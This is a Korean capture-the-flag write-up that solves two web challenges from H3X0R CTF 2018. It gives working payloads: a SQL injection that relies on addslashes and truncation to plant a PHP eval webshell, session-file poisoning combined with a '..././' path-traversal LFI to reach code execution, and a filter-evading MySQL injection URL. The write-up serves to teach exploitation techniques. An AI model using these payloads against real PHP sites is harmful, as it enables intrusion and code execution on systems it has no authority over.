 # H3X0R CTF 2018
## goodaegi board (490pts) - solver (1)

구대기 보드는 SQL Injection과 LFI, PHP 세션을 이용해 RCE하는 문제다.

의도한 풀이의 전체적인 흐름은 SQL Injection으로 PHP 코드를 username에 넣어주고 해당 계정으로 로그인해서

LFI로 계정의 세션을 포함시켜 RCE로 flag.php 읽어오는걸 의도했다. (Session to RCE)


#### PHP Session to RCE

PHP에서 로그인을 구현할 때 로그인에 성공했다면 보통 아래와 같이 처리한다.

```php
<?php
session_start();
... (생략)
if(isset($fetch['username'])) { // 유저가 존재한다면
	$_SESSION['username'] = $fetch['username']; // 세션 할당
}
```

만약 여기서 ``$fetch['username']`` 변수에 ``<?php phpinfo(); ?>`` 가 들어가면 어떻게 될까?

세션 파일에 들어가는 내용이 ``username|s:19:"<?php phpinfo(); ?>";`` 이렇게 될 것이다.

우분투 기준 PHP 세션은 기본적으로 ``/var/lib/php/sessions/`` 에 저장되며 어느 계정이든 접근이 가능하다.

또한 저장되는 세션 파일명도 알아낼 수 있기 때문에 PHP코드가 포함된 세션을 inclusion 한다면 RCE가 가능하다.

세션 파일명 : ``sess_[random_string]`` 여기서 random_string은 클라이언트가 가지고 있는 PHPSESSID 값이다.

ex) PHPSESSID=fqs54b8ies3uhuhlttlb3lq3d0; => sess_fqs54b8ies3uhuhlttlb3lq3d0


단, 회원 가입에서 ``<, >`` 를 막아놨기 때문에 SQL Injection을 활용해야 한다.

#### SQL Injection

``classes/user.class.php`` 에 있는 user_join 함수에서 SQL Injection이 발생한다.

```php
public function user_join($user) {
	$user = array_map('addslashes', $user); // anti sql injection
	$nickname = substr($user['nickname'], 0, 100); // anti sql truncate attack
	$username = substr($user['username'], 0, 100); // anti sql truncate attack
	$password = sha1(md5($user['password']));

	if($message = $this->check_names($nickname, $username)) { // call name check function
		return $message;
	}

	$query = "insert into users values ('{$nickname}', '{$username}', '{$password}');";
	$this->query($query) or die($query);

	return false;
}
```

위 소스의 2 번째 줄부터 4 번째 줄을 확인하면 addslashes를 거치고 substr로 문자열을 자르고 있다.

addslashes를 거치기 때문에 이 코드가 안전하다고 생각할 수 있겠지만 아래와 같이 공격이 가능하다.

```
nickname : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\
username : ,1,1)#
```

이유는 'a' * 99 뒤에 single quote(')가 붙었을 때 addslashes를 거치면서 앞에 backslashes(\)가 붙고

'a' * 99 + backslashes + single quote가 되면서 '가 잘리게 된다.

즉 아래와 같은 꼴이 된다.

``insert into users values ('aaaaaaaa\', '<inject point>', '<hash>');``

이제 여기서 username에 PHP 코드를 넣어주고 가입하면 된다

```
nickname : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\
username : ,1,1),(1,0x3c3f206576616c28245f4745545b785d293b3f3e,sha1(md5(0x61)))#
```
> Login
username : ``<? eval($_GET[x]);?>``
password : ``a``

#### LFI to RCE
이제 세션에 PHP 코드를 넣는데 성공했다.

LFI는 ``?p=home.html`` 여기 p 파라미터에서 발생하는데 p 파라미터는 ``secure_page`` 함수를 거친다.

해당 함수는 ``config/function.php`` 에서 확인할 수 있다.

```php
function secure_page($page) { // anti hack
	$page = strtolower(trim($page)); // str to lowercase and remove whitespace
	$page = str_replace(chr(0), '', $page); // remove null byte
	$page = str_replace('../', '', $page); // remove '../'
	if(substr($page, -4, 4) == 'html') { // check extension
		return $page;
	} 
	die('403 forbidden.');
}
```
우선 4 번째 줄을 보면 ``../`` 를 없애고 있다, ``..././`` 이렇게 바꿔주면 가운데 ``../``가 없어지면서 ``../`` 가 된다.

그 다음, 세션은 사용자가 이름을 임의로 바꿀 수 있기 때문에 세션의 맨 뒷자리 4자를 ``html``로 바꾸면 된다.

ex) ``PHPSESSID=fqs54b8ies3uhuhlttlb3lq3d0html``

``?p=..././..././..././..././..././var/lib/php/sessions/fqs54b8ies3uhuhlttlb3lq3d0html``

RCE가 성공적으로 되는걸 확인했다면, flag.php를 읽으면 된다.

## sqlgame revenge (480pts) - solver (2)

MySQL Injection 문제다.

```php
<?php
error_reporting(0);
require_once 'config.php';

/*************************

 made by munsiwoo
 sqlgame-revenge

 sqlgame_revenge table structure :
 create table sqlgame_revenge (
	 username varchar(100),
	 password varchar(100)
 ) default charset=utf8;

**************************/

isset($_GET['username'], $_GET['password']) or view_source();

$conn = mysqli_connect('', __USER__, __PASS__, 'hahahoho');
$conn or die('sql server down.');

$username = substr($_GET['username'], 0, 400);
$password = substr($_GET['password'], 0, 400);

$filter  = "'|\"|x|b|y|substr|left|right|char|hex|md|sha|compress|mysql|blog";
$filter .= "|=|like|regexp|if|case|sleep|benchmark|munsiwoo|user|where|strcmp";
$filter .= "|column|table|load|file|view|sys|global|rand|innodb|space|mid|name";

(!preg_match("/{$filter}/is", $username.chr(32).$password)) or die('403 forbidden.');
(!preg_match("/password/i", $username)) or die('403 forbidden.');
(!(substr_count($username.$password, '(') > 25)) or die('403 forbidden.');

$query = "select * from sqlgame_revenge where username='{$username}' and password='{$password}'";
$query = mysqli_query($conn, $query) or die('syntax error.');
$fetch = mysqli_fetch_assoc($query) or die('user not found.');
$fetch = array_map('strtolower', $fetch);

(strtolower($fetch['username']) == 'munsiwoo') or die('who are you?');
(strtolower($fetch['password']) ==  $password) or die('pw incorrect!');

show_flag();

```

payload
```
http://18.216.25.52/7b9b9b1e52a8f5fcff220094034b9390/?username=\&password=||0%20union%20select%20concat(insert(encode(950358551,464374247),1,6,lpad(0,0,0)),insert(insert(encode(1366430893,867605427),1,4,lpad(0,0,0)),3,6,lpad(0,0,0)),insert(insert(insert(encode(546815368,1734964794),1,4,lpad(0,0,0)),1,1,lpad(0,0,0)),4,1,lpad(0,0,0))),(select%20insert(insert(info,1,63,lpad(0,0,0)),367,1,lpad(0,0,0))%20from%20information_schema.processlist%20limit%200,1)%23
```
